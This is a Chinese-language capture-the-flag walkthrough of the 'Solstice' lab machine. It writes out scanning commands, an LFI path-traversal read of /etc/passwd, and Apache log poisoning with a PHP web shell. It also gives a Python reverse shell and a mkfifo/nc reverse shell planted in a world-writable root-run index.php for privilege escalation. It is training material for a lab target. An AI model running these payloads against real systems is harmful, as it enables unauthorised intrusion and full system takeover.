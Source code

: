 # Solstice
## 准备阶段

连接vpn
```
sudo openvpn universal.opvn
```

获得靶机IP
```
192.168.152.72
```

养成好习惯，先ping 一下
```
ping 192.168.152.72
```
结果是通的
## 信息搜集

先直接将 IP 输进浏览器
![[Pasted image 20240814104644.png]]
目标应该是开了 80 端口的
另外查到了 `phpIPAM`, 可能是个 `CMS` , 可以后续搜索相关漏洞
### 端口扫描

用rustscan进行扫描
```
rustscan -a 192.168.152.72 --range 1-65535
```

结果如下
```
PORT      STATE SERVICE     REASON
21/tcp    open  ftp         syn-ack
22/tcp    open  ssh         syn-ack
25/tcp    open  smtp        syn-ack
80/tcp    open  http        syn-ack
2121/tcp  open  ccproxy-ftp syn-ack
3128/tcp  open  squid-http  syn-ack
8593/tcp  open  unknown     syn-ack
54787/tcp open  unknown     syn-ack
62524/tcp open  unknown     syn-ack
```

发现有3个不知名端口，尝试输入浏览器进行访问

访问8593
![[Pasted image 20240814104845.png]]
发现端口 8593 开放 http 服务
尝试点击页面的功能后，发现 GET 传参
![[Pasted image 20240814105940.png]]
猜测可能有 sql 注入和 LFI 漏洞

访问54787
![[Pasted image 20240814104954.png]]
端口 54787 未开放 http 服务

访问62524
![[Pasted image 20240814105050.png]]
无果
### 目录扫描

由于端口 8593 和 80 开放 http 服务，于是进行目录扫描

扫 80 端口
```
dirsearch -u http://192.168.152.72/
```

发现可访问目录
```
http://192.168.152.72/app/
http://192.168.152.72/backup/
http://192.168.152.72/javascript/
```
 访问后全是 403 Forbidden

接下来扫 8593 端口
```
dirsearch -u http://192.168.232.72:8593
```
扫不出

换用 `gobuster`
```
gobuster dir -u 192.168.232.72:8593 -w /usr/share/wordlists/dirb/big.txt --no-error
```
也扫不出

## 立足攻击点

通过信息收集，可得到以下攻击点
```
页面 192.168.232.72 提示 phpIPAM，可搜索相关漏洞
http://192.168.152.72:8593/index.php?book=list 可能存在 sql 注入 或 LFI
```

搜到一个RCE，貌似不能用？？
https://www.exploit-db.com/exploits/50963
![[Pasted image 20240814111250.png]]

![[Pasted image 20240814111323.png]]

搜到一个 SQL Injection 但是不能用
https://www.exploit-db.com/exploits/47438
![[Pasted image 20240814111634.png]]

![[Pasted image 20240814111648.png]]
于是放弃搜索 CMS 漏洞

接下来尝试 sql 注入 `http://192.168.152.72:8593/index.php?book=list`
```
sqlmap -u http://192.168.152.72:8593/index.php?book=list
```

![[Pasted image 20240814112355.png]]
无果

然后尝试 LFI 漏洞 `http://192.168.152.72:8593/index.php?book=list`
```
http://192.168.152.72:8593/index.php?book=../../../../../../../../../../etc/passwd
```

![[Pasted image 20240814112502.png]]
回显了 `/etc/passwd` 的内容，至少我们知道可以显示出文件的内容，也可以用相对路径。注意到这是由 `php` 写的，读文件的函数和操作有很多种，如果这里用的是 `include()` 函数，那就可以进一步 get shell了

但似乎没有上传文件的地方，但是访问能够增添日志的记录。假设这个 `php` 代码真用 `include()`，并且服务器也会解析日志的话，那么在日志中加上一句话木马，应该会有所反应。

查看响应头
```
curl -I 192.168.152.72
```
![[Pasted image 20240814143713.png]]
Apache服务器

尝试默认日志路径
```
http://192.168.152.72:8593/index.php?book=../../../../../../../../../../var/log/apache2/access.log
```

![[Pasted image 20240814113035.png]]
找到了

但因为之前扫目录，导致日志很多，并且最新的记录出现在最下端，所以重启靶机

构造 GET 请求，让日志中出现一句话木马
```
nc 192.168.218.72 80

GET /<?php system($_GET['cmd']); ?>
```

**事出反常必有妖**
原本的 `<?php system($_GET['cmd']); ?>` 变为了 `\n`，说明有可能是被 `include()` 函数解析
![[Pasted image 20240814120412.png]]

上面那个一句话木马能够执行通过 GET 传参的参数 `cmd` 所包含的命令。因为有一个参数 `book`，所以要用 `&`
```
&cmd=whoami
```
查询到当前用户为 `www-data`。说明此处存在 LFI 漏洞。

上 reverse shell
```
nc -nvlp 4444
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

成功连接，获取第一个 flag
![[Pasted image 20240814121154.png]]

## 提权

尝试提权。寻找以 root 权限执行的进程
```
ps aux | grep -i 'root' --color=auto
```
![[Pasted image 20240814132033.png]]
高亮那一行表示以 root 权限执行的进程，这个进程是利用 `php` 开一个 http 服务器，服务器绑定在本地地址 `127.0.0.1` 的端口 `57`，并使用 `/var/tmp/sv/` 作为其文档根目录。

查看权限
```
ls -la /var/tmp/sv/index.php
```
返回
```
-rwxrwxrwx 1 root root 36 Jun 19 2020 /var/tmp/sv/index.php
```
故可尝试换掉 `index.php`，改为 reverse shell，来提权

想直接用 `vim` 或 `nano`，但是 `Not Found`
所以先本地写一个 reverse shell 代码
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.159 4445 > /tmp/f");
?>
```

本地搭建服务器
```
python3 -m http.server 80
```

在目标机器中输入，下载我们的 `index.php`
```
wget 192.168.45.159/index.php
```

也是在目标机器中输入请求访问。这时，服务器会处理请求，发现 `php` 文件，会交给 `php` 解释器，进行解析。而对于这个目录，`php` 解释器拥有 root 的权限，因此能以 root 的权限执行本机给出的命令
```
curl http://127.0.0.1:57/index.php
```

成功提权，拿第二个 flag 结束
![[Pasted image 20240814141904.png]]

## 反思
想从日志进行攻击，要注意日志的数量。数量太多，可能无法执行相关代码。
## 8.17 再打收获
先别急着目录扫描，可能日志会很多。先多扫几次端口，看有没有漏掉的 http 端口。或者尝试看看 `/robots.txt` `/admin` `flag`，等目录。
不能输决定路径无法显示 `/etc/passwd`，
也可用目录穿越`../../../../../../../../../../etc/passwd`

可以这么理解，`/var/tmp/sv`，这里开了个 web 服务器，归 `root` 管，而不是 `www-data`，所以解析 `index.php`时是以 `root` 的权限执行的。

提权失败
https://www.exploit-db.com/exploits/47163